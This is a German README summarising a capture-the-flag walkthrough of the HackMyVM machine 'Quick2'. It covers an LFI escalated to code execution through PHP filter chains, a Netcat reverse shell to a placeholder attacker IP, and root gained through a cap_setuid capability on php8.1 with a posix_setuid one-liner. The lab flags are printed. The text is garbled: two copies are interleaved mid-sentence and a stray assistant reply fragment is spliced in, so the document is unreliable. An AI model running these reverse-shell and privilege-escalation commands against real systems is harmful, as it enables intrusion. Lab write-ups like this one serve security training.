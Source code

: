 # Quick2 - HackMyVM (Easy)

![Quick2.png](Quick2.png)

## Übersicht

*   **VM:** Quick2
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Quick2)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2024-05-09
*   **Original-Writeup:** https://alientec1908.github.io/Quick2_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Quick2" zu erlangen. Der Weg dorthin begann mit der Entdeckung einer Local File Inclusion (LFI)-Schwachstelle in `index.php` (Parameter `page`) auf dem Webserver. Diese LFI wurde mittels PHP-Filterketten zu Remote Code Execution (RCE) eskaliert, was zu einer Shell als `www-data` führte. Die finale Rechteausweitung zu Root gelang durch Ausnutzung der Linux Capability `cap_setuid=ep`, die auf der PHP-Binary `/usr/bin/php8.1` gesetzt war. Durch Ausführen eines PHP-Einzeilers, der `posix_setuid(0)` aufrief, konnte die effektive User-ID zu Root geändert und eine Root-Shell gestartet werden.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `dirb`
*   `nikto`
*   `gobuster`
*   `curl`
*   `wfuzz`
*   Python3 (`php_filter_chain_generator.py`, Shell-Stabilisierung)
*   `nc` (Netcat)
*   `php8.1` (als Exploit-Vektor)
*   Standard Linux-Befehle (`cat`, `vi`, `chmod`, `find`, `ss`, `getcap`, `ls`, `id`, `stty`, `export`, `wget`, `bash`)
*   `linpeas.sh` (impliziert für Enumeration)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Quick2" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.123) mit `arp-scan` identifiziert. Hostname `quick2.hmv` (oder `que3.hmv`) in `/etc/hosts` eingetragen.
    *   `nmap`-Scan offenbarte Port 22 (SSH, OpenSSH 8.9p1) und Port 80 (HTTP, Apache 2.4Absolut, Ben! Hier ist der.52) mit dem Titel "Quick Automative".
    *   `dirb` und `gobuster` fanden diverse PHP-Dateien (`index.php`, `file.php`, `connect.php` etc.).
    *   `nikto` meldete eine potenzielle LFI-Schwachstelle in `/index.php?page=../../../../../../../../../../etc Entwurf für das README zur "Quick2"-Maschine.

```markdown
# Quick2 - HackMyVM (Easy)

![Quick2.png](Quick2.png)

## Übersicht

*   **VM:** Quick2
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Quick2)
*   **Schwierigkeit:**/passwd`.

2.  **Initial Access (LFI zu RCE als `www-data`):**
    *   Die LFI-Schwachstelle in `index.php` (Parameter `page`) wurde mit `curl` bestätigt; `/etc/passwd` konnte ausgelesen werden (Benutzer `andrew`, `nick` identifiziert).
    *   Der Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2024-05-09
*   **Original-Writeup:** https://alientec1908.github.io/Quick2_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Quick2" zu erlangen. Der Weg dorthin begann mit der Entdeckung einer Local File Inclusion (LFI)-Schwachstelle in ` Quellcode von `index.php` (ausgelesen via LFI und `php://filter/convert.base64-encode/resource=index.php`) bestätigte die direkte `include($page)`-Schwachstelle.
    *   Mittels `php_filter_chain_generator.py` wurde eine PHP-Filterkette für den Payload `` (oder ``) erstellt.
    *   Die generierte Filterketten-URL (`...index.php?page=php://filter/.../resource=index.php` (Parameter `page`) auf dem Webserver. Diese LFI wurde mittels PHP-Filterketten zu Remote Code Execution (RCE) eskaliert, was zu einer Shell als `www-data` führte. Die finale Rechteausweitung zu Root gelang durch Ausnutzung der Linux Capability `cap_setuid=ep`, die derphp://temp&cmd=...`) wurde genutzt, um eine Netcat-Reverse-Shell (`nc -e /bin/bash ANGRIFFS_IP PORT`) als `www-data` zu starten.

3.  **Privilege Escalation (von `www-data` zu `root` via PHP Capability):**
    *   Als `www-data` wurde mittels `getcap -r / 2>/dev/null` festgestellt, dass die PHP-Binary `/usr/bin/php8.1` die Capability `cap_setuid=ep` besaß.
    *   Durch Ausführen des Befehls `php8.1 -r "posix_setuid(0); system PHP-Binary `/usr/bin/php8.1` zugewiesen war. Durch Ausführen eines PHP-Einzeilers, der `posix_setuid(0)` aufrief, konnten Root-Rechte erlangt werden.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi('/bin/bash');"` (oder `system('/bin/bash -p');`) wurde die effektive User-ID zu `0` (Root) geändert und eine Root-Shell gestartet.
    *   Die User-Flag (`HMV{Its-gonna-be-a-fast-ride}`) wurde in `/home/nick/user.txt` gefunden.
    *   Die Root-Flag (`HMV{This-was-a-Quick-AND-fast-machine}`) wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Local File Inclusion (LFI) mit PHP Filter Chains:** Eine LFI-Schwachstelle in `index.php` wurde`
*   `nmap`
*   `dirb`
*   `nikto`
*   `gobuster`
*   `curl`
*   `wfuzz`
*   Python3 (`php_filter_chain_generator.py`, Shell-Stabilisierung)
*   `nc` (Netcat)
*   `php8.1` (als Exploit-Vektor)
*   Standard Linux-Befehle (`cat`, `find`, `ss`, `getcap`, `ls`, `id`, `uname`, `stty`, `export`)
*   `linpeas.sh` (impliziert für Post-Exploitation)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Quick2" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2. mittels PHP-Filterketten zu Remote Code Execution (RCE) eskaliert.
*   **Linux Capabilities (`cap_setuid` auf PHP):** Die PHP-Binary `/usr/bin/php8.1` besaß die `cap_setuid`-Capability. Dies erlaubte einem Prozess, der mit dieser PHP-Version ausgeführt wurde, seine effektive User-ID zu ändern, was eine direkte Eskalation zu Root ermöglichte.
*   **Information Disclosure:** `nikto` und LFI enthüllten Systeminformationen und Dateiinhalte.

## Flags

*   **User Flag (`/home/nick/user.txt`):** `HMV{Its-gonna-be-a-fast-ride}`
*   **Root Flag (`/root/root.txt`):** `HMV{This-was-a-Quick-AND-fast-machine}`

## Tags

`HackMyVM`, `Quick2`, `Easy`, `LFI`, `PHP Filter Chain`, `RCE`, `Linux Capabilities`, `cap_setuid`, `PHP Exploit`, `Linux`, `Web`, `Privilege Escalation`, `Apache`
